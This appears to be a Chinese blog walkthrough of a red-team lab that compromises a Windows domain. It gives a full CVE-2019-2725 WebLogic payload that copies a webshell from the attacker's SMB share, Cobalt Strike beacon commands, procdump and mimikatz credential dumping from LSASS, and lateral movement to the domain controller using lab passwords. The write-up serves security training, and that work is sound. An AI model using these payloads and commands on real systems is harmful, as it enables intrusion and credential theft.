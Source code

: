 ```yaml
---
title: ATT&CK实战系列——红队实战(二)
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
summary: >-
  vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：http://vulnstack.qiyuanxuetang.net/vuln/detail/3/
tags:
  - 安全
  - 内网域渗透
  - 靶场
categories:
  - 渗透测试
abbrlink: 63e9fa60
date: 2021-03-31 14:01:58
img:
coverImg:
password:
---
```


# 一、环境搭建

## 1.1 靶场下载
---
靶场下载地址[传送门](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)
> 靶机通用密码：  1qaz@WSX

# 1.2 环境配置
---
拓扑图
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)1.png)
下载好靶机打开vmx文件z之后恢复到快照v1.3，由于DMZ网段为192.168.111.0/24，所以需要将子网ip设置为192.168.111.0
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)2.png)

## 1.3 配置信息
---
DC
IP：10.10.10.10OS：Windows 2012(64)
应用：AD域

WEB
IP1：10.10.10.80
IP2：192.168.111.80
OS：Windows 2008(64)
应用：Weblogic 10.3.6MSSQL 2008

PC
IP1：10.10.10.201
IP2：192.168.111.201
OS：Windows 7(32)
应用：

攻击机
IP： 192.168.111.1
OS： Windows 10(64)
IP： 192.168.111.128 
OS： Kali

>内网网段：10.10.10.1/24
>DMZ网段：192.168.111.1/24

## 1.4 域环境初始化
---
登录 WEB 主机启动服务。默认密码是 1qaz@WSX 需登录时修改。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)3.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)4.png)
输入新密码123.com
切换至 WEB 服务目录下启动 WEB 服务。
C:\Oracle\Middleware\user_projects\domains\base_domain
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)5.png)
双击运行
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)6.png)

# 二、weblogic 漏洞利用并 getshell

## 2.1	信息收集
---
全端口扫描
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)7.png)
常用端口是开放状态 1433 是 mssql， 7001 知道是 weblogic 服务，因为前面手工开启的。
使用WeblogicScan 工具扫一下
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)8.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)9.png)

## 2.2	利用 CVE-2019-2725 获得 shell
---
Kali 搭建 smbserver 通过命令执行直接 copy 冰蝎马到服务器上。
启动 smbserver 名称为 share 目录为/root/
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)10.png)
打开 BurpSuite
将 POC 复制到 Repeater 中进行发包。
<pre style="background-color:#F0F8FF;">
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.80:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 839
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt;
&lt;soapenv:Header&gt;
&lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;
&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt;
&lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
&lt;void class="java.lang.ProcessBuilder"&gt;
&lt;array class="java.lang.String" length="3"&gt;
&lt;void index="0"&gt;
&lt;string&gt;cmd&lt;/string&gt;
&lt;/void&gt;
&lt;void index="1"&gt;
&lt;string&gt;/c&lt;/string&gt;
&lt;/void&gt;
&lt;void index="2"&gt;
&lt;string&gt;copy \\192.168.111.128\share\shell.jsp servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\1.jsp &lt;/string&gt;
&lt;/void&gt;
&lt;/array&gt;
&lt;void method="start"/&gt;&lt;/void&gt;
&lt;/work:WorkContext&gt;
&lt;/soapenv:Header&gt;
&lt;soapenv:Body&gt;
&lt;asy:onAsyncDelivery/&gt;
&lt;/soapenv:Body&gt;&lt;/soapenv:Envelope&gt;
</pre>
设置目标主机端口
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)11.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)12.png)
使用冰蝎进行连接，地址：http://192.168.111.80:7001/_async/1.jsp
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)13.png)
查看用户信息
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)14.png)
查看系统信息，看一下系统安装了哪些补丁
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)15.png)

# 三、域渗透靶场获取DC权限

## 3.1	Cobalt Strike 部署
---
上传到kali中并解压
添加执行权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)16.png)
启动服务端(命令+ip+密码)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)17.png)
启动客户端
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)18.png)
用户名随意填写， CS 支持多人协同工作，密码是 123456。

## 3.2	创建监听
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)19.png)
添加
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)20.png)
生成exe程序
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)21.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)22.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)23.png)

## 3.3  上传相关利用工具
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)24.png)

## 3.4	反弹管理员shell 给 cs 服务
---
先切换到我们上传文件的目录，运行 web.exe 返回一个 de1ay 用户的 shell。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)25.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)26.png)
提权
右键->Access->Elevate->ms14-058 提到 system 权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)27.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)28.png)

## 3.5	明文读取密码
---
使用 管理员 权限 download 进程内
`beacon> shell procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)29.png)
需要将 lsass.dmp 文件拖回本地放至相同的系统中进行解密。
`beacon> shell mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit >pass.txt`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)30.png)
直接使用 download 命令下载，下载后会保存到程序目录的 downloads 目录。
`beacon> download pass.txt`
名字是随机字符串
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)32.png)

## 3.6	域信息收集
---
目前得到账户信息
mssql@de1ay 1qaz@WSX
de1ay@de1ay 1qaz@WSX
de1ay@WEB 该用户是登录系统用的，密码是登录时自行修改的。
查看网络信息找到域控
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)33.png)
DNS 服务器 10.10.10.10 也就是域控。
找到 DC 的主机名
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)34.png)
主机名： DC.de1ay.com

## 3.7	通过凭证连接域控反弹域控 shell
---
创建新的监听。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)35.png)
选择 smb 这个特殊的 beacon，名称就叫 smb 这个后面要用。
恢复初始凭证
`beacon> rev2self` 
通过前面获取到的账户信息生成新的凭证。
`beacon> make_token DE1AY\de1ay 1qaz@WSX`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)36.png)
DC上线
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)37.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)38.png)

>工具包[提取码：aj70](https://pan.baidu.com/s/1VdQW_AalGaZqT2LepNEnLw)